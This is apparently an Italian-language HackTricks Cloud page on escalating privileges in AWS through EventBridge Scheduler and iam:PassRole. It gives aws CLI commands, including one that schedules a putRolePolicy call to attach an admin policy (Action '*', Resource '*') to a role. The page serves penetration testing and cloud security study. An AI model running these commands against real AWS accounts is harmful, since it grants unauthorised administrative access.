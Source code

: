 # AWS - EventBridge Scheduler Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EventBridge Scheduler

EventBridge Scheduler può essere utilizzato per l'escalation dei privilegi programmando chiamate a vari servizi AWS. Sfruttando la sua capacità di invocare servizi su base programmata, gli utenti con permessi sufficienti possono elevare i privilegi. Ecco alcune delle azioni chiave che EventBridge Scheduler può attivare utilizzando obiettivi predefiniti:

* Lambda: lambda:InvokeFunction - Invocare funzioni Lambda su un programma.
* CodeBuild: codebuild:StartBuild - Avviare progetti AWS CodeBuild.
* CodePipeline: codepipeline:StartPipelineExecution - Attivare esecuzioni di AWS CodePipeline.
* ECS: ecs:RunTask - Eseguire attività ECS.
* EventBridge: events:PutEvents - Inserire eventi in EventBridge.
* Inspector: inspector:StartAssessmentRun - Avviare valutazioni di Amazon Inspector.
* Kinesis: kinesis:PutRecord - Inserire record nei flussi Kinesis.
* Firehose: firehose:PutRecord - Inserire record nei flussi di consegna Firehose.
* SageMaker: sagemaker:StartPipelineExecution - Avviare esecuzioni di pipeline SageMaker.
* SNS: sns:Publish - Pubblicare messaggi nei temi SNS.
* SQS: sqs:SendMessage - Inviare messaggi alle code SQS.
* Step Functions: states:StartExecution - Avviare esecuzioni di AWS Step Functions.

Queste sono solo alcune delle azioni predefinite che EventBridge Scheduler può eseguire. Tuttavia, utilizzando obiettivi universali, molte altre azioni attraverso i servizi AWS possono essere invocate. Gli obiettivi universali consentono operazioni API più ampie oltre l'elenco predefinito.

Maggiore info EventBridge Scheduler in:

{% content-ref url="../aws-services/eventbridgescheduler-enum.md" %}
[eventbridgescheduler-enum.md](../aws-services/eventbridgescheduler-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

Gli utenti con permessi `sts:AssumeRole`, `iam:PassRole` e `scheduler:CreateSchedule o scheduler:UpdateSchedule` possono elevare i privilegi sfruttando l'EventBridge Scheduler per invocare servizi utilizzando un ruolo con privilegi superiori.

Con questi permessi, un attaccante può assumere un ruolo con privilegi elevati e passare quel ruolo all'EventBridge Scheduler quando crea o aggiorna un programma. Il programma può essere configurato per eseguire qualsiasi delle azioni elencate in precedenza, come invocare funzioni Lambda, avviare attività ECS, attivare esecuzioni di CodePipeline, o qualsiasi operazione dei 270 servizi AWS supportati da EventBridge Scheduler. Programmando queste azioni, un attaccante potrebbe abusare di privilegi superiori per eseguire operazioni non autorizzate attraverso i servizi AWS. \\

Ad esempio, potrebbero configurare il programma per invocare una funzione Lambda che è un'azione predefinita:
```bash
aws scheduler create-schedule \
--name MyLambdaSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
"RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
}'
```
In aggiunta alle azioni di servizio templated, puoi utilizzare obiettivi universali in EventBridge Scheduler per invocare una vasta gamma di operazioni API per molti servizi AWS. Gli obiettivi universali offrono flessibilità per invocare quasi qualsiasi API. Un esempio può essere l'uso di obiettivi universali aggiungendo "AdminAccessPolicy", utilizzando un ruolo che ha la policy "putRolePolicy":
```bash
aws scheduler create-schedule \
--name GrantAdminToTargetRoleSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
"RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
"Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"
}'
```
## Riferimenti

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)
* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

